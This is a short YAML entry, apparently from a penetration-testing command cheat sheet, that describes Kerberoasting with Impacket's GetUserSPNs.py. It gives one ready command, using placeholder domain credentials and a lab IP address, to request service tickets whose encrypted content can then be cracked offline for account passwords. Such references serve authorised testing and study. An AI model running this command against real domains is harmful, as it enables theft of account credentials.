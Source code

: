 ```yaml
---
description: |
  Impacket's GetUserSPNs.py will attempt to fetch Service Principal Names that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account's password, which can then be bruteforced offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

items:
  Password:
    - code: |
        python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
  Username:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
---
```

